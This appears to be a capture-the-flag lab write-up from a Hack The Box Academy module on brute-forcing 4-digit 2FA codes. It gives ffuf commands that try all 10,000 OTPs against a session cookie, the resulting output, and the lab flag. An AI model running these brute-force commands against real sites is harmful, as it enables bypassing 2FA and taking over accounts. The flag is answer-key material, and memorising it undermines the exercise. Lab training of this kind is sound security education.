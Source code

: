 ﻿Two-factor authentication (2FA) provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device). However, 2FA can also be achieved by combining any other two of the major three authentication categories we discussed previously. Therefore, 2FA makes it significantly more difficult for attackers to access an account even if they manage to obtain the user's credentials. By requiring users to provide a second form of authentication, such as a one-time code generated by an authenticator app or sent via SMS, 2FA mitigates the risk of unauthorized access. This extra layer of security significantly enhances the overall security posture of an account, reducing the likelihood of successful account breaches.

---

## Attacking Two-Factor Authentication (2FA)

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web application does not implement measures against successive submission of incorrect TOTPs. For our lab, we will assume that we obtained valid credentials in a prior phishing attack:`admin:admin`. However, the web application is secured with 2FA, as we can see after logging in with the obtained credentials:

 ![](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png)

The message in the web application shows that the TOTP is a 4-digit code. Since there are only`10,000` possible variations, we can easily try all possible codes. To achieve this, let us first take a look at the corresponding request to prepare our parameters for`ffuf`:

![image](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png)

As we can see, the TOTP is passed in the`otp` POST parameter. Furthermore, we need to specify our session token in the`PHPSESSID` cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from`0000` to`9999` like so:


```shell-session
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the`Invalid 2FA Code` error message:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
 * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
 * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
 * FUZZ: 9999
```

As we can see, we get many hits. That is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since`6513` was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to`/admin.php`. To access the protected page, we can simply access the endpoint`/admin.php` in the web browser and see that we successfully passed 2FA.

# Question
---

![Pasted image 20250214162315.png](../../../../IMAGES/Pasted%20image%2020250214162315.png)

Ok, let's authenticate:

![Pasted image 20250214162403.png](../../../../IMAGES/Pasted%20image%2020250214162403.png)

Once we try to authenticate, we go to `/2fa.php` and subsequently, we are able to see this:


![Pasted image 20250214162451.png](../../../../IMAGES/Pasted%20image%2020250214162451.png)

We need a 2FA code, but we do not have one, what can we do now?

This is were brute-forcing the 2fa code, comes in handy, let's do it:

First, let's generate our list of codes:

```
seq -w 0 9999 > tokens.txt
```

Next, let's check the response of what an invalid code looks like, for example, if we enter 1111:

![Pasted image 20250214162733.png](../../../../IMAGES/Pasted%20image%2020250214162733.png)

We get `Invalid 2FA Code`, knowing all this, we can build our ffuf command:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200 
```

After a while, we get this:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : POST
 :: URL : http://94.237.54.116:39864/2fa.php
 :: Wordlist : FUZZ: /home/samsepiol/tokens.txt
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Header : Cookie: PHPSESSID=vcvsoagh3ordpepfb49nanpv57
 :: Data : otp=FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Regexp: Invalid 2FA Code
________________________________________________

0085 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 792ms]
0097 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 776ms]
0041 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 790ms]
0022 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
0043 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 807ms]
0038 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 806ms]
```

The first code is our 2fa code:

```
0085
```

We can now authenticate:

![Pasted image 20250214163819.png](../../../../IMAGES/Pasted%20image%2020250214163819.png)

Flag is:

```
HTB{9837b33a1ef678c380addf7ef8a517de}
```
